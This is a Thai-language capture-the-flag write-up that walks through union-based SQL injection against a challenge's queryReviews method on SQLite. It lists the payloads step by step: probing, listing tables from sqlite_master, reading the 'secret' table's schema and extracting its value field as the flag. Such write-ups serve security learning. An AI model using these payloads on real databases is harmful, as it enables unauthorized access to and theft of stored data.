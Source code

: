 ### ขั้นตอนการทดสอบและแก้โจทย์  
โจทย์นี้ต้องทดสอบ SQL Injection เพื่อดึงข้อมูลออกมาจากฐานข้อมูล โดยเราเริ่มต้นการโจมตีผ่าน Method `queryReviews` ดังนี้:



#### 1. **ทดสอบ SQL Injection Union**  
   ใช้คำสั่ง:
   ```sql
   REVIEWS:0 union select 1 --
   ```
   **ผลลัพธ์:** คำสั่งนี้ประสบความสำเร็จในการหลอกเซิร์ฟเวอร์ ทำให้เราสามารถตรวจสอบโครงสร้างฐานข้อมูลต่อได้  

---

#### 2. **ค้นหาชื่อ Table ในฐานข้อมูล**  
   เพื่อค้นหา Table ทั้งหมดที่มีอยู่ในฐานข้อมูล เราใช้คำสั่ง:
   ```sql
   REVIEWS:0 union select group_concat(tbl_name) 
   from sqlite_master 
   where type='table' and tbl_name not like 'sqlite_%' --
   ```
   **ผลลัพธ์:**  
   ```
   books, reviews, secret
   ```
   Table ชื่อ **secret** ดูน่าสนใจและน่าจะเก็บข้อมูลสำคัญ!  

---

#### 3. **ตรวจสอบโครงสร้าง Table 'secret'**  
   ใช้คำสั่ง:
   ```sql
   REVIEWS:0 union select sql 
   from sqlite_master 
   where type!='meta' and sql not null and name ='secret' --
   ```
   **ผลลัพธ์:**  
   ```sql
   CREATE TABLE secret (
     title TEXT NOT NULL, 
     value TEXT NOT NULL
   )
   ```
   Table นี้มี 2 Field คือ `title` และ `value` ซึ่ง `value` อาจเก็บ Flag ไว้  

---

#### 4. **ดึงข้อมูลใน Field 'value' จาก Table 'secret'**  
   ใช้คำสั่ง:
   ```sql
   REVIEWS:0 union select group_concat(value) from secret --
   ```
   **ผลลัพธ์:** เราได้รับข้อมูลจาก Field `value` ซึ่งเป็น **Flag** สำหรับโจทย์ข้อนี้! 🎉  

---